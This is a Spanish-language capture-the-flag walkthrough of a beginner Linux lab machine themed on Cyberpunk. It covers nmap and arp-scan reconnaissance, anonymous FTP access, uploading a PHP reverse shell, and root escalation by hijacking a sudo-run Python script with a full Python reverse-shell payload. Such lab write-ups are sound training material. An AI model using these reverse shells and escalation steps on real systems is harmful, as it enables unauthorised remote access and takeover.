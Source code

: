 ```yaml
---
title: "Cyberpunk - Principiante: [Relic Infiltration]"
date: 2024-09-06 10:00:00 +0200
categories: [CTF, Writeups, Linux, Principiante, Hacking]
tags: [CTF, Writeups, Linux, Principiante, Exploits]
image: /img/posts/CTF/Cyberpunk/image.jpg
---
```



## Introducción

Bienvenidos al desafío **"Cyberpunk - Relic Infiltration"**, un CTF basado en Linux para principiantes. Este writeup narramos paso a paso cómo se llevó a cabo la infiltración y explotación de vulnerabilidades, desde el reconocimiento inicial hasta la escalada de privilegios y obtención de acceso como **root**.

## Identificación de la Red

Empezamos identificando la IP de la máquina objetivo utilizando el comando `ip a` para verificar nuestra configuración de red y luego con `arp-scan` escaneamos la red local en busca de la IP de la máquina vulnerable.

```bash
❯ ip a
```

Salida:

```bash
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.5/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
```

Ahora ejecutamos `arp-scan` para identificar las máquinas en la red.

```bash
❯ arp-scan -I eth0 --localnet
```

Salida:

```bash
10.0.2.8    08:00:27:43:1e:91   (Unknown)
```

## Escaneo de Puertos con Nmap

Procedemos con un escaneo completo de puertos utilizando `nmap` para identificar servicios expuestos.

```bash
❯ nmap -p- -Pn -n --min-rate 2000 10.0.2.8 -oG allports
```

Salida:

```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo más detallado en los puertos 21, 22 y 80.

```bash
❯ nmap -sSCV -p21,22,80 -vvv 10.0.2.8 -oN ports
```

Salida:
```
Puerto 21 con acceso anónimo, un archivo `index.html`, y un archivo `secret.txt`. El puerto 80 presenta un servidor HTTP Apache.
```

## Acceso al FTP Anónimo

Nos conectamos al servicio FTP usando acceso anónimo.

```bash
❯ ftp anonymous@10.0.2.8
Password: 
ftp> ls
```

Archivos disponibles:

```bash
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```

Descargamos y analizamos el archivo `secret.txt`:

```bash
❯ cat secret.txt
```

Contenido de `secret.txt`:

```r
*********************************************
*                                           *
*        Hola Netrunner,                    *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misión crucial.                         *
*                                           *
*   Tenemos información de que Arasaka,     *
*   la mega-corporación más poderosa de     *
*   Night City, está migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*                                           *
*   Necesitamos que te infiltres en sus     *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```

## Subida de Reverse Shell

Descargamos un reverse shell PHP desde el repositorio de PentestMonkey.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Subimos el archivo PHP al servidor a través de FTP.

```bash
ftp> put php-reverse-shell.php
```

## Ejecución de Reverse Shell

A continuación, accedemos al puerto HTTP para ejecutar el archivo `php-reverse-shell.php`. Nos conectamos a nuestra máquina a través de Netcat:

```bash
❯ nc -lnvp 443
# whoami
www-data
```

## Escalada de Privilegios

Exploramos el sistema y encontramos un archivo interesante en `/opt/arasaka.txt`, que contiene una cadena cifrada en **Brainfuck**.

```bash
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Desciframos la cadena y encontramos información útil. Nos autenticamos como el usuario `arasaka` y descubrimos que podemos ejecutar un script Python con privilegios de `root`.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

### Explotación de la Vulnerabilidad

Usamos **Python Library Hijacking** para obtener acceso como root modificando el script.

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.5", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

Nos conectamos nuevamente a través de Netcat, esta vez como **root**.

```bash
# whoami
root
```

## Conclusión

Al final del desafío, logramos infiltrarnos en los sistemas de Arasaka, desactivar el Relic y obtener acceso como root. Este writeup demuestra la importancia de la configuración adecuada de permisos y la protección de servicios expuestos.

Herramientas utilizadas:
- `nmap`
- `ftp`
- `netcat`
- `python`

Medidas de protección:
- Configuración correcta de permisos.
- Auditoría de servicios.
- Uso de autenticación multifactor para servicios sensibles.

¡Gracias por acompañarnos en este desafío!
